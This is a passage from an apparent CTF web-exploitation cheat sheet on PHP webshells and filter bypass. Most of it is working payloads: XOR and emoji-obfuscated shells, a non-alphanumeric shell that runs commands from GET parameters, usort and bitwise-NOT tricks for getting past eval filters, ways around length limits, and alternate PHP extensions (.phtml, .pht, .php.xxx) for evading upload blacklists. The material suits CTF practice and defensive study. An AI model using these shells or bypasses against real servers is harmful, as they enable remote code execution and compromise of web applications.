 ```php
param=usort(...$_GET);


// if you can write file e.g. tmp php file
// you can use characters like ".", or "source" to execute the file
// . /file will also not print out the result
```
👾How to bypass the length limit：  
* Build command with filename, then `ls` all thing into shell script [HITCON CTF](http://taiwan.1pwnch.com/web/ctf/2018/02/20/A-tiny-shell/#more)

[system v.s. exec v.s. shell_exec](https://blog.longwin.com.tw/2013/06/php-system-exec-shell_exec-diff-2013/)  
**exec() and shell_exec() all need echo**  
[Awesome analysis of php lib exp](https://stackoverflow.com/questions/3115559/exploitable-php-functions)  
  
👾Emoji shell:  
```php
// Use dot. to concat
$😭 = $😙. $😀. $🤗. $🤗. $🤩. $😆. $🙂. $🤔;

// XOR
$😊 = "||||%-" ^ "/%/(``";
$😊 ("`|" ^ ",/");
```
From VXCTF2018, I used such shell without English, number, and underline, content is `<?=SYSTEM(LS);`.  
```php
<?=$_="`{{{"^"?<>/";${$_}[_](${$_}[__]); // $_GET[_]($_GET[__]);
```  
From `Meepwn Quals 2018`, I use such shell without text, you can also replace the underline with emoji...  
[VXCTF2018](https://github.com/shinmao/CTF-writeups/tree/master/vxcon2018)  


👾Here comes another advanced problem:  
```php
preg_match("/[A-Za-z0-9_$]+/",$a)
eval($a);
```  
I cannot use `$` to create variable anymore, how should I do?  
In php7.0, there is a new way to run function dynamically such as `('phpinfo')();`, with this way we shorten the length of string. For the limitation on alphanumeric character, we can use **NOT** operator to transform it: `(~%8F%97%8F%96%91%99%90)();`.   
In addition to new way in php7.0, **using glob** can also help us a lot. `[x]` is also the member of Linux glob and we can use it just like regex to target specific file just like following:  
```php
ls /??/??[^_][A-Z]
```  
This means list the file the last two words of whose are not `_` and in range of A to Z. Awesome!!

# Bypass blacklist extension  
[服务器针对文件的解析漏洞汇总](https://mp.weixin.qq.com/s/f0y_AjRtc4NjEqeJe6cPhw)  
In addition to `.php`，with regex in conf:  
* `.php3`  
* `.php4`  
* `.php5`  
* `.php7`  
* `.pht`  
* `.phtml`  
can also be parsed as php file  
* `.php.xxx`  
In old version  
apache2 parse from the right side to left side, until it recognize the extension  